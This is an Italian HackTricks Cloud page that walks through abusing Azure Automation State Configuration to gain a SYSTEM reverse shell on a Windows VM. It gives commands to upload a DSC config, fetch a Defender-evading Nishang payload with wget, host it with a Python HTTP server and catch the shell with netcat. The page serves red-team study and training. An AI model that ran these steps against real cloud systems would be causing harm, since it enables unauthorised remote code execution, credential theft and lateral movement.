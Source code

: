 # Az - Configurazione dello stato RCE

{% hint style="success" %}
Impara e pratica l'hacking su AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

**Controlla il post completo su: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Riassunto della preparazione e dei passaggi dell'infrastruttura del server remoto (C2)

#### Panoramica
Il processo coinvolge la configurazione di un'infrastruttura del server remoto per ospitare un payload modificato `Invoke-PowerShellTcp.ps1` di Nishang, chiamato `RevPS.ps1`, progettato per eludere Windows Defender. Il payload è servito da una macchina Kali Linux con IP `40.84.7.74` utilizzando un semplice server HTTP Python. L'operazione viene eseguita attraverso diversi passaggi:

#### Passo 1 — Creare File
- **File Richiesti:** Sono necessari due script PowerShell:
1. `reverse_shell_config.ps1`: Un file di configurazione dello stato desiderato (DSC) che recupera ed esegue il payload. È ottenibile da [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Uno script per pubblicare la configurazione sulla VM, disponibile su [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Personalizzazione:** Le variabili e i parametri in questi file devono essere adattati all'ambiente specifico dell'utente, inclusi i nomi delle risorse, i percorsi dei file e gli identificatori del server/payload.

#### Passo 2 — Comprimere il File di Configurazione
- Il file `reverse_shell_config.ps1` viene compresso in un file `.zip`, rendendolo pronto per il trasferimento nell'Account di Archiviazione di Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Passo 3 — Impostare il Contesto di Archiviazione & Caricare
- Il file di configurazione compresso viene caricato in un contenitore di archiviazione Azure predefinito, azure-pentest, utilizzando il cmdlet Set-AzStorageBlobContent di Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Passo 4 — Preparare Kali Box
- Il server Kali scarica il payload RevPS.ps1 da un repository GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Lo script è modificato per specificare la VM Windows di destinazione e la porta per il reverse shell.

#### Passaggio 5 — Pubblicare il File di Configurazione
- Il file di configurazione viene eseguito, con conseguente distribuzione dello script del reverse shell nella posizione specificata sulla VM Windows.

#### Passaggio 6 — Ospitare il Payload e Configurare il Listener
- Viene avviato un SimpleHTTPServer Python per ospitare il payload, insieme a un listener Netcat per catturare le connessioni in ingresso.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Il task pianificato esegue il payload, ottenendo privilegi di livello SYSTEM.

#### Conclusione

L'esecuzione riuscita di questo processo apre numerose possibilità per ulteriori azioni, come il dump delle credenziali o l'espansione dell'attacco a più VM. La guida incoraggia a continuare a imparare e a essere creativi nel campo della Configurazione dello Stato di Automazione di Azure.

{% hint style="success" %}
Impara e pratica l'Hacking su AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>
{% endhint %}
